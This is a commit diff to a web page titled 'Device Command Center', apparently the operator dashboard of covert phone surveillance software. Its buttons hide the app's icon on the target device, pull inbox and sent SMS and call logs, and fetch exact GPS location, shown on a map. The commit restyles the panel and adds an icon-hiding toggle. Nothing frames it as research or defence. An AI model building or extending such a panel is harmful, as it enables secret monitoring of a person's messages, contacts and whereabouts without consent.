

Before and after one commit to sekharathome/mirror-view, a website: page index.html in a window 1280 px wide. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,208 +3,452 @@
 <head>
 <meta charset="UTF-8">
 <meta name="viewport" content="width=device-width, initial-scale=1.0">
+
 <title>Device Command Center</title>
 <link rel="stylesheet" href="https://unpkg.com/leaflet@1.9.4/dist/leaflet.css"/>
+
 <style>
-        body { font-family: 'Segoe UI', sans-serif; background: #121212; color: #e0e0e0; margin: 0; display: flex; flex-direction: column; height: 100vh; overflow: hidden; }
+
+body{
+    font-family:'Segoe UI',sans-serif;
+    background:#0b0b0b;
+    color:#e0e0e0;
+    margin:0;
+    display:flex;
+    flex-direction:column;
+    height:100vh;
+    overflow:hidden;
+}
 
 /* HEADER */
-        .header { background: #1e1e1e; padding: 10px 20px; display: flex; justify-content: space-between; align-items: center; border-bottom: 1px solid #333; }
-        .status-badge { padding: 5px 12px; border-radius: 15px; font-weight: bold; font-size: 0.9em; }
-        .online { background: #1b5e20; color: #a5d6a7; }
-        .offline { background: #b71c1c; color: #ef9a9a; }
-        .net-info { font-family: monospace; color: #64b5f6; }
+.header{
+    background:#111;
+    padding:12px 20px;
+    display:flex;
+    justify-content:space-between;
+    align-items:center;
+    border-bottom:1px solid #222;
+}
+
+.status-badge{
+    padding:6px 14px;
+    border-radius:20px;
+    font-weight:bold;
+}
+
+.online{
+    background:#1b5e20;
+    color:#a5d6a7;
+}
+
+.offline{
+    background:#b71c1c;
+    color:#ef9a9a;
+}
+
+.net-info{
+    font-family:monospace;
+    color:#64b5f6;
+}
 
 /* MAIN LAYOUT */
-        .main-container { display: flex; flex: 1; height: 100%; }
+.main-container{
+    display:flex;
+    flex:1;
+}
 
-        /* CONTROLS (Left) */
-        .controls-panel { width: 300px; background: #1e1e1e; padding: 20px; overflow-y: auto; border-right: 1px solid #333; }
-        .btn-group { margin-bottom: 20px; }
-        .btn-group h3 { margin-top: 0; color: #90caf9; font-size: 1em; border-bottom: 1px solid #444; padding-bottom: 5px; }
-        button { width: 100%; padding: 10px; margin-bottom: 8px; background: #333; color: white; border: none; border-radius: 4px; cursor: pointer; transition: 0.2s; text-align: left; }
-        button:hover { background: #444; }
-        button:active { background: #555; }
-        .btn-danger { background: #5a1a1a; }
+/* CONTROLS */
+.controls-panel{
+    width:300px;
+    background:#111;
+    padding:20px;
+    border-right:1px solid #222;
+    overflow-y:auto;
+}
 
-        /* OUTPUT BOX (Right - "Mobile View") */
-        .output-panel { flex: 1; background: #000; padding: 20px; display: flex; justify-content: center; align-items: center; }
-        .mobile-frame { width: 360px; height: 640px; background: #121212; border: 10px solid #333; border-radius: 20px; overflow: hidden; display: flex; flex-direction: column; position: relative; }
-        .mobile-header { background: #222; padding: 10px; text-align: center; font-weight: bold; border-bottom: 1px solid #444; }
-        .mobile-content { flex: 1; overflow-y: auto; padding: 10px; font-size: 0.9em; }
+.btn-group h3{
+    color:#90caf9;
+    border-bottom:1px solid #333;
+    padding-bottom:5px;
+}
 
-        /* DATA STYLES */
-        .data-card { background: #222; padding: 10px; margin-bottom: 10px; border-radius: 5px; border-left: 3px solid #64b5f6; }
-        .data-card div { margin-bottom: 3px; }
-        .label { color: #888; font-size: 0.8em; }
+button{
+    width:100%;
+    padding:11px;
+    margin-bottom:8px;
+    background:#1f1f1f;
+    color:white;
+    border:none;
+    border-radius:8px;
+    cursor:pointer;
+    transition:.2s;
+}
 
-        /* MAP STYLES */
-        #map { height: 100%; width: 100%; }
-        .gps-info { position: absolute; top: 0; left: 0; width: 100%; background: rgba(0,0,0,0.8); padding: 10px; z-index: 999; font-size: 0.8em; }
+button:hover{
+    background:#2a2a2a;
+}
+
+/* 🔥 TOGGLE BUTTON */
+.toggle-on{
+    background:#2e7d32;
+}
+
+.toggle-off{
+    background:#5a1a1a;
+}
+
+/* OUTPUT PANEL */
+.output-panel{
+    flex:1;
+    display:flex;
+    justify-content:center;
+    align-items:center;
+    background:#050505;
+}
+
+/* 🔥 PREMIUM PHONE DESIGN */
+.mobile-frame{
+    width:360px;
+    height:720px;
+    background:#000;
+    border-radius:38px;
+    padding:10px;
+    box-shadow:
+        0 0 0 2px #333,
+        0 20px 60px rgba(0,0,0,.9),
+        inset 0 0 20px rgba(255,255,255,.05);
+    position:relative;
+}
+
+/* notch */
+.mobile-frame:before{
+    content:"";
+    position:absolute;
+    top:8px;
+    left:50%;
+    transform:translateX(-50%);
+    width:140px;
+    height:22px;
+    background:#111;
+    border-radius:20px;
+}
+
+.mobile-content-wrapper{
+    background:#121212;
+    height:100%;
+    border-radius:28px;
+    overflow:hidden;
+    display:flex;
+    flex-direction:column;
+}
+
+/* header inside phone */
+.mobile-header{
+    padding:12px;
+    text-align:center;
+    font-weight:bold;
+    background:#181818;
+    border-bottom:1px solid #333;
+}
+
+/* content */
+.mobile-content{
+    flex:1;
+    overflow-y:auto;
+    padding:10px;
+}
+
+/* data cards */
+.data-card{
+    background:#1c1c1c;
+    padding:12px;
+    margin-bottom:10px;
+    border-radius:10px;
+    border-left:4px solid #64b5f6;
+}
+
+.label{
+    color:#888;
+    font-size:.75em;
+}
+
+/* MAP */
+#map{
+    height:100%;
+    width:100%;
+}
+
+.gps-info{
+    position:absolute;
+    top:0;
+    left:0;
+    width:100%;
+    background:rgba(0,0,0,.85);
+    padding:10px;
+    z-index:999;
+    font-size:.8em;
+}
 
 </style>
 </head>
+
 <body>
 
 <div class="header">
-        <div class="status-badge offline" id="connectionStatus">DEVICE: OFFLINE</div>
-        <div class="net-info" id="networkInfo">WAITING FOR NETWORK DATA...</div>
+    <div class="status-badge offline" id="connectionStatus">
+        DEVICE: OFFLINE
+    </div>
+    <div class="net-info" id="networkInfo">
+        WAITING FOR NETWORK DATA...
+    </div>
 </div>
 
 <div class="main-container">
+
+    <!-- CONTROLS -->
     <div class="controls-panel">
+
         <div class="btn-group">
             <h3>App Management</h3>
-                <button onclick="sendCommand('hideApp')">Hide App Icon</button>
-                <button onclick="sendCommand('showApp')">Show App Icon</button>
+
+            <!-- 🔥 TOGGLE BUTTON -->
+            <button id="toggleAppBtn"
+                class="toggle-off"
+                onclick="toggleAppVisibility()">
+                Show App Icon
+            </button>
+
         </div>
 
         <div class="btn-group">
             <h3>Communications</h3>
-                <button onclick="sendCommand('getSMS inbox')">Get Inbox SMS</button>
-                <button onclick="sendCommand('getSMS sent')">Get Sent SMS</button>
-                <button onclick="sendCommand('getCallLogs')">Get Call Logs</button>
+
+            <button onclick="sendCommand('getSMS inbox')">
+                Get Inbox SMS
+            </button>
+
+            <button onclick="sendCommand('getSMS sent')">
+                Get Sent SMS
+            </button>
+
+            <button onclick="sendCommand('getCallLogs')">
+                Get Call Logs
+            </button>
         </div>
 
         <div class="btn-group">
             <h3>Tracking</h3>
-                <button onclick="sendCommand('getLocation')">Get Exact GPS Location</button>
+            <button onclick="sendCommand('getLocation')">
+                Get Exact GPS Location
+            </button>
+        </div>
+
+    </div>
+
+    <!-- MOBILE -->
+    <div class="output-panel">
+
+        <div class="mobile-frame">
+
+            <div class="mobile-content-wrapper">
+
+                <div class="mobile-header"
+                     id="outputHeader">
+                     Output View
+                </div>
+
+                <div class="mobile-content"
+                     id="outputContent">
+
+                    <div style="text-align:center;color:#555;margin-top:50%;">
+                        Select an option from the control panel.
+                    </div>
+
+                </div>
+
             </div>
         </div>
 
-        <div class="output-panel">
-            <div class="mobile-frame">
-                <div class="mobile-header" id="outputHeader">Output View</div>
-                <div class="mobile-content" id="outputContent">
-                    <div style="text-align: center; color: #555; margin-top: 50%;">Select an option from the control panel to view data.</div>
-                </div>
-            </div>
     </div>
 </div>
 
 <script src="https://unpkg.com/leaflet@1.9.4/dist/leaflet.js"></script>
 
 <script>
-        const ws = new WebSocket("wss://" + window.location.host); // Connect to your server
+
+const ws = new WebSocket("wss://" + window.location.host);
 let mapInstance = null;
 
+/* 🔥 TOGGLE LOGIC */
+let appHidden = false;
+
+function toggleAppVisibility(){
+
+    const btn = document.getElementById("toggleAppBtn");
+
+    if(appHidden){
+
+        sendCommand("showApp");
+
+        btn.innerText="Hide App Icon";
+        btn.className="toggle-on";
+
+    }else{
+
+        sendCommand("hideApp");
+
+        btn.innerText="Show App Icon";
+        btn.className="toggle-off";
+    }
+
+    appHidden = !appHidden;
+}
+
+/* ---------- EXISTING SOCKET CODE (UNCHANGED) ---------- */
+
 ws.onmessage = (event) => {
+
     const msg = event.data;
 
     if (msg.startsWith("STATUS:")) {
+
         const status = msg.split(":")[1];
         const badge = document.getElementById('connectionStatus');
-                badge.className = status === 'ONLINE' ? 'status-badge online' : 'status-badge offline';
+
+        badge.className =
+            status === 'ONLINE'
+            ? 'status-badge online'
+            : 'status-badge offline';
+
         badge.innerText = "DEVICE: " + status;
     }
+
     else if (msg.startsWith("NET_INFO:")) {
-                document.getElementById('networkInfo').innerText = msg.split(":")[1];
+        document.getElementById('networkInfo').innerText =
+            msg.split(":")[1];
     }
+
     else if (msg.startsWith("SMS_DATA:")) {
         renderSMS(JSON.parse(msg.substring(9)));
     }
+
     else if (msg.startsWith("CALL_DATA:")) {
         renderCalls(JSON.parse(msg.substring(10)));
     }
+
     else if (msg.startsWith("LOC_DATA:")) {
         renderLocation(JSON.parse(msg.substring(9)));
     }
 };
 
-        function sendCommand(cmd) {
+function sendCommand(cmd){
+
     ws.send(cmd);
-            document.getElementById('outputContent').innerHTML = '<div style="text-align:center; padding:20px;">Fetching Data...</div>';
+
+    document.getElementById('outputContent').innerHTML =
+        '<div style="text-align:center;padding:20px;">Fetching Data...</div>';
 }
 
-        // RENDER SMS
-        function renderSMS(data) {
+/* ---------- RENDER FUNCTIONS (UNCHANGED) ---------- */
+
+function renderSMS(data){
+
     const container = document.getElementById('outputContent');
     document.getElementById('outputHeader').innerText = "SMS Messages";
+
     container.innerHTML = "";
 
-            data.forEach(sms => {
-                const card = document.createElement('div');
-                card.className = "data-card";
-                card.innerHTML = `
+    data.forEach(sms=>{
+
+        const card=document.createElement('div');
+        card.className="data-card";
+
+        card.innerHTML=`
             <div><span class="label">TYPE:</span> <b>${sms.type}</b></div>
             <div><span class="label">FROM:</span> ${sms.number}</div>
             <div><span class="label">MSG:</span> ${sms.content}</div>
             <div><span class="label">TIME:</span> ${sms.date}</div>
         `;
+
         container.appendChild(card);
     });
 }
 
-        // RENDER CALLS
-        function renderCalls(data) {
+function renderCalls(data){
+
     const container = document.getElementById('outputContent');
     document.getElementById('outputHeader').innerText = "Call Logs";
-            container.innerHTML = "";
 
-            data.forEach(call => {
-                const card = document.createElement('div');
-                card.className = "data-card";
-                card.innerHTML = `
+    container.innerHTML="";
+
+    data.forEach(call=>{
+
+        const card=document.createElement('div');
+        card.className="data-card";
+
+        card.innerHTML=`
             <div><span class="label">TYPE:</span> <b>${call.type}</b></div>
             <div><span class="label">CONTACT:</span> ${call.number}</div>
             <div><span class="label">DURATION:</span> ${call.duration}</div>
             <div><span class="label">TIME:</span> ${call.date}</div>
         `;
+
         container.appendChild(card);
     });
 }
 
-        // RENDER LOCATION
-        function renderLocation(data) {
-            const container = document.getElementById('outputContent');
-            document.getElementById('outputHeader').innerText = "GPS Tracking";
-            container.innerHTML = "";
+function renderLocation(data){
 
-            if (data.error) {
-                container.innerHTML = `<div style="color:red; text-align:center;">${data.error}</div>`;
+    const container=document.getElementById('outputContent');
+    document.getElementById('outputHeader').innerText="GPS Tracking";
+
+    container.innerHTML="";
+
+    if(data.error){
+        container.innerHTML=
+            `<div style="color:red;text-align:center;">${data.error}</div>`;
         return;
     }
 
-            // Create Info Header
-            const infoDiv = document.createElement('div');
-            infoDiv.className = 'gps-info';
-            infoDiv.innerHTML = `
+    const infoDiv=document.createElement('div');
+    infoDiv.className='gps-info';
+
+    infoDiv.innerHTML=`
         <div><b>LAT:</b> ${data.lat}</div>
         <div><b>LON:</b> ${data.lon}</div>
         <div><b>ACCURACY:</b> ${data.acc} meters</div>
     `;
+
     container.appendChild(infoDiv);
 
-            // Create Map Container
-            const mapDiv = document.createElement('div');
-            mapDiv.id = "map";
+    const mapDiv=document.createElement('div');
+    mapDiv.id="map";
     container.appendChild(mapDiv);
 
-            // Initialize Map
-            setTimeout(() => {
-                if (mapInstance) mapInstance.remove();
-                mapInstance = L.map('map').setView([data.lat, data.lon], 15);
+    setTimeout(()=>{
 
-                L.tileLayer('https://{s}.tile.openstreetmap.org/{z}/{x}/{y}.png', {
-                    attribution: '© OpenStreetMap'
+        if(mapInstance) mapInstance.remove();
+
+        mapInstance=L.map('map')
+            .setView([data.lat,data.lon],15);
+
+        L.tileLayer(
+            'https://{s}.tile.openstreetmap.org/{z}/{x}/{y}.png'
+        ).addTo(mapInstance);
+
+        L.marker([data.lat,data.lon])
+            .addTo(mapInstance);
+
+        L.circle([data.lat,data.lon],{
+            radius:data.acc
         }).addTo(mapInstance);
 
-                // Add Marker
-                L.marker([data.lat, data.lon]).addTo(mapInstance)
-                    .bindPopup(`Accuracy: ${data.acc}m`).openPopup();
-
-                // Add Accuracy Circle
-                L.circle([data.lat, data.lon], {
-                    color: 'blue',
-                    fillColor: '#30f',
-                    fillOpacity: 0.2,
-                    radius: data.acc
-                }).addTo(mapInstance);
-            }, 100);
+    },100);
 }
 
-        // Initial Identity
-        ws.onopen = () => ws.send("I_AM_WEB");
+ws.onopen=()=>ws.send("I_AM_WEB");
+
 </script>
+
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
